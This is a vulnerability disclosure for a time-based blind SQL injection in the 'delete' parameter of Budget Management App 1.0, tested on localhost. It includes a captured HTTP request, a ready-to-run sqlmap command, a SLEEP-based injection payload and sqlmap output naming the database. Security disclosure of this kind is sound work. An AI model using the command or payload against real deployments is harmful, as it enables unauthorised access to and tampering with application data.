 # Budget Management App - SQL Injection - 2
+ **Exploit Title:** Budget Management App - SQL Injection - 2
+ **Date:** 2024-12-05
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://code-projects.org/budget-management-in-php-with-source-code/
+ **Software Link:** https://download.code-projects.org/details/1c10fce2-3260-479b-878f-b2107dec72f9
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number.

## Description:
Budget Management App 1.0 allows SQL Injection via the 'delete' parameter at "http://localhost//PHP-Budget-Calculator/index.php?delete=1. 
Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "http://localhost/PHP-Budget-Calculator/index.php"
+ Click delete button.
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
GET /PHP-Budget-Calculator/process.php?delete=1 HTTP/1.1
Host: localhost
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
```

+ Use sqlmap to exploit. In sqlmap, use 'delete' parameter to dump the database.
```
sqlmap -r r.txt -p delete --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: delete (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: delete=1 AND (SELECT 6895 FROM (SELECT(SLEEP(5)))zXgn)
---
[10:52:57] [INFO] the back-end DBMS is MySQL
[10:52:57] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[10:53:02] [INFO] fetching current database
current database: 'budget_calculator'
```
+ current database: `budget_calculator`

![Ekran görüntüsü 2024-05-15 225555](https://github.com/BurakSevben/CVEs/assets/117217689/fa24e501-bb9d-4b44-961b-281b1294c3d7)
